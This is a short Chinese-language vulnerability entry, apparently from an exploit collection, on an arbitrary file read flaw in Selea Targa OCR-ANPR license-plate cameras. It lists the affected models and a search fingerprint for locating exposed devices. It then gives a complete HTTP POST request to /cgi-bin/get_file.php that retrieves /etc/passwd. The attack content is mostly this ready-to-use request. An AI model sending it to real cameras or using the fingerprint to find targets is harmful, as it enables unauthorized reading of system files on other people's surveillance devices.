 # Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

```
Selea Selea Targa IP OCR-ANPR Camera iZero
Selea Selea Targa IP OCR-ANPR Camera Targa 512
Selea Selea Targa IP OCR-ANPR Camera Targa 504
Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
Selea Selea Targa IP OCR-ANPR Camera Targa 805
Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
Selea Selea Targa IP OCR-ANPR Camera Targa 750
Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB
```

## 网络测绘

```
"selea_httpd"
```

## 漏洞复现

登录页面如下

![](./images/202202140933858.png)

发送如下请求包

```plain
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=test&files_list=/etc/passwd
```

![](./images/202202140933222.png)
